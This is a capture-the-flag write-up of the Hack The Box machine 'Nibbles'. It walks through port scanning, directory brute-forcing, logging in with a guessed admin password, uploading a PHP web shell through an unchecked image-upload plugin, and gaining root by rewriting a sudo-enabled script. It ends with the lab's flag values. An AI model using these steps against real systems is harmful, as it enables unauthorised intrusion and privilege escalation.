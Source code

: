 ```yaml
---
layout: offsec
category: [offsec]
---
```


![banner](/assets/images/htb/nibbles.png) 
# Nibbles: 10.10.10.75


## Scanning:

<br>

```bash
nmap 10.10.10.75

Starting Nmap 7.01 ( https://nmap.org ) at 2018-05-05 19:14 EDT
Nmap scan report for 10.10.10.75
Host is up (0.11s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 21.39 seconds
```

<br>

## Gaining Access:

<br>

As always, let's start exploring the HTTP application running on port 80.

![](/assets/images/75_index.html.png)

![](/assets/images/75_index.source.png)

Well, nothing interesting there.. Let's use <a href='https://tools.kali.org/web-applications/dirb'>dirb</a> to bruteforce all common known directories as so `dirb 10.10.10.75/nibbleblog/`


__Note: I created a function for calling dirb:__


_~/.zshrc_
```bash
dirb(){
    echo 'HTTPS'
    echo
    /home/srbz/._bin/dirb/dirb https://$1 /home/srbz/._bin/dirb/wordlists/common.txt
    echo 'HTTP'
    echo
    /home/srbz/._bin/dirb/dirb http://$1 /home/srbz/._bin/dirb/wordlists/common.txt
}
```

Apparently, there's no other way to login than guessing. Hack the box usually use the challenge name as the password. 

`username: admin`

`password: nibbles`

![](/assets/images/75_blog.png)

<br>

## Maintaining Access:

<br>

Once logged in, we can upload files by using the plugin`my_image.` The vulnerability of that plugin is that it does not verrify the file extension. So, I uploaded my <a href='https://github.com/KevinCarroll7737/tools/blob/master/shell.php'>shell.php</a>

![](/docs/assets/images/75_upload.png)

By running <a href='https://github.com/KevinCarroll7737/tools/blob/master/linenum.sh'>linEnum.sh</a>, I've been able to see fast and clearly which files the user `nibbler` had the control of.

```bash
bash linenum.sh

(...)

utching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
```

Ok so we can use `/home/nibbler/personal/stuff/monitor.sh` with sudo without giving password. Let's change what's in this script.

<br>

## Covering Tasks:

<br>

```bash
echo 'cat /root/root.txt > /tmp/srbz.txt; chown nibbler:nibbler /tmp/srbz.txt; chmod 777 /tmp/srbz.txt' >  /home/nibbler/personal/stuff/monitor.sh
sudo /home/nibbler/personal/stuff/monitor.sh
cat /tmp/srbz.txt
b6d745c0dfb6457c55591efc898ef88c
cat /home/nibbler/user.txt
b02ff32bb332deba49eeaed21152c8d8
```
